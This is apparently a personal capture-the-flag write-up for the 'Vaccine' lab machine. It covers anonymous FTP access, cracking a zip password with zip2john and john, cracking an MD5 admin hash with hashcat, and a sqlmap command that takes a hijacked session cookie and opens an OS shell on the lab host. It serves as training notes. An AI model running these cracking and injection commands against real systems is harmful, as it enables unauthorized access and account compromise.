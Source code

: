 **Title:** 00 - Vaccine
**Tags:** [[Very Easy]]
**Topics:** #ftp #SQL #SUID 

---

# Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Linux | 11/06/2022 | 12/06/2022 |

# Process
1. Login as `anonymous` on ftp service >  `get` the .zip and `unzip`.
2. Use John The Reapper to unzip the file.

# John The Reapper
There is a script call it `zip2john` that creates a hash out of a zip file. After, with this hash, we run a wordlist to brute force the password.

> Get the hash
```bash
$ zip2john backup.zip > hash.txt
```

> Brute Force the hash
```bash
$ john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> Show the password
```bash
$ john --show hash.txt
```

```ad-caution
Must `gunzip rockyou.txt.gz`
```

# MD5 Password
Inside index.php there was admin's password encrypted using MD5. 
To crack MD5 password execute this command:
```bash
$ sudo hashcat -m 0 pass.md5 /usr/share/wordlists/rockyou.txt
```


# SQL Injection
In the website there is a search bar that we can explote with SQL injection.
We can use sqlmap but before executing any command, we will need to grab the cookie to authenticat admin user. 
[//]: Install cooki-editor extension

```bash
$ sqlmap -u http://10.129.95.174/dashboard.php?search=hello --cookie="PHPSESSID=rp7ki2fucgrc0brl7f1l9j5p9e" --os-shell
```

User flag is in `/var/lib/postgresql/`

```ad-note
I found users flag but I lost in the proccess of creating a interactive shell.
I only need root flag.
```
